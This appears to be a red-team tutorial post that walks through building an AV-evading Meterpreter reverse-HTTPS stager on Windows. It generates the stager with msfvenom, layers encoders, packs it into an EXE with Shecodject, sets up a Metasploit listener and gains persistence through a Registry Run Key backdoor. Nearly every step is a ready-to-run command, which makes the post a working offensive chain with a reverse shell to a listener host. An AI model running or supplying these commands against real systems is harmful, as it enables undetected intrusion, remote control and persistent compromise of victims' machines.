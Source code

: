 ```yaml
---
title: Evade EDR with Shellcode Injection and gain persistence using Registry Run Keys
updated: 2021-02-08 16:09
---
```

Gaining a foothold in an internal network can be challenging, as AV and Defender makes this a little tougher. Modern Windows version have put in place some mitigation that prevent the shellcode to run properly. The issue is caused by the fact that the shellcode need RWX memory which are flagged when the shellcode is executed.

Shellcode injection might be very helpful for APT or Red Teamers during Pentesting, as they inject the malicious EXE and migrate the process into a trusted one by EDR. No suspicious behaviour at all!

## Encrypting the C2 communication

Transmitting data over a unencrypted Tunnel is not very recommended, it is always a great idea to replace the default SSL that Metasploit uses when generating stagers, so the communication between the stager and the C2 framework is encrypted. We can create a private RSA key and a Server Certificate for the C2 server-side.

```
openssl req -new -newkey rsa:4096 -days 365 -nodes -x509 -keyout rsaprivate.key -out servercertificate.crt
```

![generate_rsa_and_server_cert](https://miro.medium.com/max/700/1*BkkGQXUKAbLK4QyAdUg1ww.png)

Then merging this together in a .pem file and we have created a concatenated certificate.

```
cat rsaprivate.key servercertificate.crt > my.pem
```

## Generating an encoded shellcode

Generate a Metasploit stager using the certificate and making almost obfuscated using **shikata_ga_nai** for implementing a polymorphic XOR additive feedback encoder.

```
msfvenom -p windows/meterpreter/reverse_winhttps LHOST=192.168.1.46 LPORT=8888 --platform windows -a x86 HandlerSSLCert=./my.pem StagerVerifySSLCert=true -s 42 --smallest -e x86/shikata_ga_nai -i 9 -f raw| msfvenom --platform windows -a x86 -e x86/call4_dword_xor -i 6 -b "\x00\x0a\x0d" -f raw > shellcode.raw
```

![encoding_shellcode_with_9_iterations](https://miro.medium.com/max/700/1*r_Mn2ruiyf-OQ_q2kEOXuQ.png)

Once the shellcode is successfully generated, we will pack it into EXE.

## Packaging the shellcode

There is a open source tool called [Shecodject](https://github.com/TaroballzChen/shecodject) which nicely package our generated shellcode into EXE. Open the tool using python3 as root:

```
sudo python3 shecodject.py
```

Load scc module, set the shellcode.raw file which we previously generated and run the module to read the shellcode inside the file.

```
scc
set source /set/location/to/shellcode.raw
run
```

![reading_shellcode](https://miro.medium.com/max/559/1*g6DM9bSHg5PT-6SYzHPgqQ.png)

Exit the module by typing back. Now that the shellcode is read by the tool, we will pack it into an EXE, so enter the following commands 1 by 1:

```
exe
set noconsole False
run
```

The process of packaging will take a while. Once finished the output will be saved inside /output inside shecodject folder

The EXE is generated and ready to evade modern EDRs and Windows Defender. Let’s test if it gets detected by Windows Defender:

![bypassed_windows_defender](https://miro.medium.com/max/700/1*d02_hB-bgzFhfVKKj8Keug.png)

It is bypassed, no detection at all. Now it’s time to set a listener in Metasploit and hopefully get a shell:

```
msfconsole -q -x 'use exploit/multi/handler; set ExitOnSession false; set PAYLOAD windows/meterpreter/reverse_winhttps; set LHOST 192.168.1.46; set LPORT 8888; set HandlerSSLCert /home/nade/Desktop/my.pem; set StagerVerifySSLCert true; set SessionCommunicationTimeout 600; run -j -z'
```

For the sake of the statistics, this is the detection rate when scanning in various AVs:

![virus_total_result](https://miro.medium.com/max/700/1*ZvnQegj1lDzTCGrFIZ8mMg.png)

## Gaining persistence by backdooring Registry Run Keys

For persistence we will inject our backdoor into a Registry Run Key. Luckily Metasploit has a module for this port-exploitation. The module require the following configuration and will drop an executable at a writable location on the compromised system. In this case, we will upload our backdoor which is the same stager as the one we used for gaining (on our local machine I have called it **fin.exe**) on the target machine -> **C:\tmp\fin.exe**

First create **tmp** directory and upload **fin.exe**:

![c2_upload_backdoor](https://miro.medium.com/max/700/1*KZbAWjiVyMg-g7QLTCLmfA.png)

```
use post/windows/manage/persistence_exe
set REXEPATH /home/nade/Desktop/fin.exe
set REXENAME fin.exe
set SESSION 2
set STARTUP USER
set LOCALEXEPATH C:\\tmp
run
```

![metasploit_persistence_module](https://miro.medium.com/max/700/1*ehPmp6GPl5lmgHOINca9vw.png)

The next time that the user will login with the system a new Meterpreter session will open (a black cmd screen will pop-up where it executed the backdoor and than automatically closes).
